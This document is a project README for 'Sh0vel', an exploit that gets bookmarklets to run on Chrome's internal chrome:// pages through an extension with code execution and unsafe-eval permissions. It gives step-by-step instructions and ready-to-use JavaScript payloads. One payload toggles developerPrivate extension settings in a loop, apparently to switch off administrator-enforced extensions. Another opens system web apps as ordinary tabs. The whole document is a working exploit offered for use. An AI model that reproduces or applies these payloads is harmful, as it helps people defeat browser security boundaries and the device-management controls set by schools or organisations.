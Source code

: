 ![Sh0vel logo](/oie_i9TLE9czG77X.jpg)
# Sh0vel
Sh0vel is an exploit letting bookmarklets run on almost any url, most notably chrome urls, allowing you to access permissions like developerPrivate or settingsPrivate from within an extension.

# Steps:
- Step 1: Get code execution in an extension. This can be by point-blank, skiovox breakout (preferably), XSS, DNS spoofing, or some other wacky way, but you need code execution in the extension.

- Step 2: Verify it has the correct permissions. For this to work, the following permissions are needed:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP

If it does not have these permissions, this will not work.
- Step 3: Enable the flag "#extensions-on-chrome-urls"
- Step 4: Get a bookmarklet. This is fairly straight-forward. I'll use blank3r as an example.
- Step 5: Place the bookmarklet as follows:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});

Make the extension run that code.
If you wanted to use blank3r, you would use this code:

chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `let link=window.open('about:blank','_blank');link.location.href="javascript:let shim = false;var ids = prompt('extension ids (comma separated)').split(',');setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);";`});});

- Step 6: Open the url you want this code to run on. For blank3r, open chrome://extensions.
If you want to run code on an SWA (e.g. chrome://os-settings), you will need to open it as
a normal tab. This can be accomplished with the code below (thank you Writable):
chrome.tabs.create({}, () => {chrome.tabs.update(null, {url: "chrome://file-manager"});});

and you can replace chrome://file-manager with the SWA of your choosing.

- Step 7: Click the extension icon. If done correctly, your bookmarklet will run!

# Credits:
- Writable for helping me open SWAs as a normal tab.
- Zelgol1234 for the finding the original API access exploit
- Peap (Is not in whelement by the way) for writing this github page.
- The rest of whelement: mental support while I struggled with random things.


# Explanation: 
We can enable the extensions-on-chrome-urls flag to allow code to run as content scripts
on chrome urls, but tabs.executeScript runs without access to some variables in the page it
runs in, notably the chrome object. However, if the extension that invoked tabs.executeScript
has access to use eval, it also has a small side effect: letting us use javascript: urls.
By using an automated version of the point-blank exploit, we can use a javascript bookmarklet
on a chrome url, and for some reason, it runs with access to the chrome object for its opener.
A lot of new things are possible with this, such as spawning webviews from the file manager , 
using blank3r on the latest version, and more.

Aside from trying to run code on chrome urls, it's possible to use normal bookmarklets this way
to launch applications like eruda into pages without it being run as a content script. 
